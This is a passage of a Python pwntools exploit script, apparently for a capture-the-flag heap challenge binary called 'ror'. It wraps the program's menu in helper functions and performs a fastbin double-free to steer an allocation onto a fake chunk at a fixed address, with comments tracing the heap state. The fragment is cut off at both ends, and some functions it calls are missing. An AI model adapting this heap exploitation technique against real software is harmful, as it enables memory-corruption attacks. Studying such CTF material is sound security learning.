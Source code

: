```py
	if content != null:
		sleep(0.1)
		p.send(content)

def malloc(size,content):
	p.sendlineafter(">> ","1")
	p.sendlineafter("\n",str(size))
	p.sendlineafter("\n",content)

def free():
	p.sendlineafter(">> ","2")

def show():
	p.sendlineafter(">> ","3")

# close()
def malloc2(size,content):
	sleep(0.1)
	p.sendline("1")
	sleep(0.1)
	p.sendline(str(size))
	sleep(0.1)
	p.send(content)

def back2(id,content):
	sleep(0.1)
	p.sendline("666")
	sleep(0.1)
	p.sendline(str(id))
	if content != null:
		sleep(0.1)
		p.send(content)

def free2():
	sleep(0.1)
	p.sendline("2")






fake_chunk()
back(1,"b"*0x10+'\n')
malloc(0x60,"c"*0x10)
back(2,null)	# b*0x10 --> unsorted_bin, with size of 0xb1
malloc(0x60,"d"*0x10)	# split from unsorted_bin, ptr-->this chunk
malloc(0x60,"e"*0x10)	# likewise, and after, chunk will be placed in small_bin, buf-->this chunk

free()
back(2,null)	# 
free()	# double_free here
# 'e'->'d'<-'e'
# aka. fastbin_0x70: buf->ptr<-buf

fake_chunk_addr = 0x0000602060
malloc(0x60,p64(fake_chunk_addr)) # modify bk,ptr->0x602060
#gdb.attach(p)
#pause()
malloc(0x60,"f"*0x10)
malloc(0x60,"g"*0x10)	#clean fastbin

elf = ELF("./ror")
```